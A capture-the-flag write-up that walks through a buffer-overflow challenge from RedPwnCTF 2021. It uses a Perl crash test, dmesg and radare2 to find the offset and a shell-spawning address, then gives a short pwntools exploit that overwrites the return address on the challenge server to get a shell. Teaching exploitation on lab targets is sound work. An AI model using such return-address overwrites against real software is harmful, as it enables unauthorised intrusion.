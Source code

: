 +++
author = "biplavxyz"
date = "2021-07-14"
title = "RedPwnCTF-2021 - Writeup - pwn/beginner-generic-pwn-number-0"
+++

Greetings everyone!  
This is going to be writeup about the challenge `beginner-generic-pwn-number-0` of `pwn` category from RedPwnCTF 2021.  
  
`Challenge 1: beginner-generic-pwn-number-0`  
Running the binary with sample input `test` simply exited the program with no error code, while running the binary with very long input threw `segmentation fault` error. So, the program had buffer overflow vulnerability.  
![1](/pwn1checking1.PNG)  

Then, I tried to find the number of bytes after which overflow occured. I printed a large number of 'A' character and passed it to the program, which caused program to crash with same `segmentation fault` error.  
```perl
perl -E "print 'A' x 58" | ./beginner-generic-pwn-number-0
```
![3](/pwn1checking3.PNG)  

Then, I ran `dmesg` command to print the message buffer of kernel.
![4](/pwn1checking4.PNG)  
It can be seen that crash was caused due to the bad value of `RIP` register.  
`4141` are two extra `A` characters that buffer couldn't handle, and thus it overwrote the instruction pointer.  
As we printed out `58` `A` characters, and had two extra `A`'s, the required offset will be `58-2` which equals to `56`.  

Now, it's time analyze the binary with radare2.
I opened the binary in radare2 with command:  
`r2 beginner-generic-pwn-number-0`, and analyzed the binary with `aaaa`.  
I extracted the binary info with `iI` command.  

![2](/pwn1binaryinfo.PNG)  
As the binary didn't have canary enable, and wasn't stripped, exploiting it was easy.  
Then, I printed functions list with `afl`, and seeked to the main function with `s main`.  

![5](/pwn1r2-1.PNG)  

![6](/pwn1r2-2.PNG)

Then, I printed the disassemble code of main function with `pdf` command. 
It can be seen that there is also an address `0x004012ac` which calls shell.  
```bash
/bin/sh
```
![7](/pwn1r2-addressofshell.PNG)
As instruction pointer can be controlled , it is possible to jump to the address where shell can be executed.  

I used pwntools to craft a simple exploit and got a shell.

```python
from pwn import *

#elf = ELF('./beginner-generic-pwn-number-0')

#p = elf.process()

#print(p.recv())

p = remote("mc.ax", 31199)

payload = b"A"*56 + p64(0x004012ac)

p.sendline(payload)

p.interactive()
```  

![8](/pwnexploit1.PNG)

And there it was, I got shell, and got the flag.

Hope you learned something.  
Thanks for reading!  
> - <cite>seizetheday</cite>
